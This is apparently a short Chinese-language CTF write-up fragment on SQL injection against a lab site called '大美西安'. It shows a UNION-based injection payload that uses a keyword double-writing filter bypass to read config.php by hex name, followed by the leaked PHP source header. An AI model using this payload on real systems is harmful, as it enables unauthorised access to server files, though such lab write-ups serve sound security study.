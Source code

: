 ![Untitled](SQL%E6%B3%A8%E5%85%A5%207c83b7a8861f4e89aff2bded5a55302b/Untitled%2014.png)

三个功能点，在download这里的查看存在参数为感觉有sql

查询逻辑可能是select picture from xxx where id = 

毫无影响，可能是有过滤

![Untitled](SQL%E6%B3%A8%E5%85%A5%207c83b7a8861f4e89aff2bded5a55302b/Untitled%2015.png)

-1 union select 这显示无这个picture

在download这里进行双写绕过

1 ununionion selselectect 0x636f6e6669672e706870

```php
<?php 
#define("DIR_PERMITION",time());
include("config.php");
$_POST = d_addslashes($_POST);
$_GET = d_addslashes($_GET);

?>

<html>
<head>
<title>大美西安</title>
<meta http-equiv="Content-Type" content="text/html; charset=UTF-8">

</head>
```